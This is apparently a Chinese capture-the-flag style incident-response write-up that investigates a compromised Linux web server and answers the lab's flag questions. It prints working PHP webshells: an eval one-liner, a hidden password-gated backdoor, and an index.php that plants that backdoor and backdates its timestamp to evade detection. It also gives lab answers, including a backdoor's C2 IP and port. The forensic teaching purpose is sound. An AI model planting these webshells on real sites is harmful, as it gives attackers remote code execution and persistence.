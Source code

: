```yaml
---
title: 应急响应-linux入侵排查
date: 2024-11-26 22:16:17
permalink: /pages/29c781/
author: 
  name: Cola
  link: https://the0n3.top
---
```

# 应急响应-linux入侵排查

检查任务

- 1.web目录存在木马，请找到木马的密码提交

- 2.服务器疑似存在不死马，请找到不死马的密码提交

- 3.不死马是通过哪个文件生成的，请提交文件名

- 4.黑客留下了木马文件，请找出黑客的服务器ip提交

- 5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交

## web目录存在木马，请找到木马的密码提交

连接上服务器ls一堆文件，打包下来扔D盾

```bash
cd /var/www/html
tar -cvzf web.tar.gz  /var/www/html .
```

本地scp下载下来扔d盾

```bash
scp root@ip:/var/www/html/web.tar.gz .
```

![1](https://the0n3.top/medias/xjruqin/1.png)

查看源码，可以看出

- 1.php是一个php一句话木马，密码是1
- .shell.php是一个隐藏木马，由index.php生成，密码加密后md5值是5d41402abc4b2a76b9719d911017c592
- index.php是生成隐藏木马.php的脚本并使用touch命令修改了生成时间躲避查杀

1.php

```php
<?php eval($_POST[1]);?>
```

.shell.php

```php
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

index.php

```php
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
	$path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
	Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
	Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d "2021-01-01 00:00:01" .shell.php');
usleep(3000);
?>
```

第一个flag是flag{1}

## 服务器疑似存在不死马，请找到不死马的密码提交

`.shell.php`是隐藏木马，同时使用touch命令修改了创建时间躲避查杀，那么就他了

md5解密拿到来密码

![2](https://the0n3.top/medias/xjruqin/2.png)

flag{hello}

## 不死马是通过哪个文件生成的，请提交文件名

flag{index.php}


## 黑客留下了木马文件，请找出黑客的服务器ip，端口

在解压的文件里有一个elf的linux可执行文件，扔进微步云沙箱在线分析一下

![3](https://the0n3.top/medias/xjruqin/3.png)

在云沙箱分析的网络行为检测里，可以看到后门连接的ip及端口

dst：目标ip
dport：目标端口

![4](https://the0n3.top/medias/xjruqin/4.png)

flag{10.11.55.21}

flag{3333}

> 又学到了，云沙箱分析，好工具

参考：

- [第一章-应急响应-Linux入侵排查-玄机靶场](https://lexsd6.github.io/2024/07/10/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5-%E7%8E%84%E6%9C%BA%E9%9D%B6%E5%9C%BA/)
- [玄机应急响应 - 第一章 - 应急响应 - Linux 入侵排查](http://www.sword-blogs.com/2024/04/11/%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/%E7%8E%84%E6%9C%BA%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/%E7%AC%AC%E4%B8%80%E7%AB%A0%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/)